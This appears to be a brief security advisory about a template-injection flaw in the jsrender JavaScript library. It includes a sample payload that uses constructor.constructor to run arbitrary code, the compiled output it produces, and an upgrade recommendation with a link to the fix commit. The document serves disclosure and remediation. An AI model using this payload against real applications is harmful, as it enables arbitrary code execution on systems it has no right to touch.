 ## Overview
Due to improper parsing, a malicious user is able to control input into jsrender's template can execute arbitrary code.

## Example input 
```
{{for ~x!=1?(constructor.constructor("return arguments.callee.caller")()):~y(10)}}
{{:#data}}
{{/for}}
```

## and output:
```
function anonymous(data,view,j,u) { // template var v,t=j._tag,ret="" +t("for",view,this,[ {view:view,tmpl:1, params:{args:['~x!=1?(constructor.constructor(\\"return arguments.callee.caller\\")()):    ~y(10)']}, args:[view.hlp("x")!=1?(data.constructor.constructor("return arguments.callee.caller")()):view.hlp("y")(10)], props:{}}]); return ret; }
```
 

## Recommendation
Upgrade to at least version 0.9.74

## References
https://github.com/BorisMoore/jsrender/commit/f984e139deb0a7648d5b543860ec652c21f6dcf6

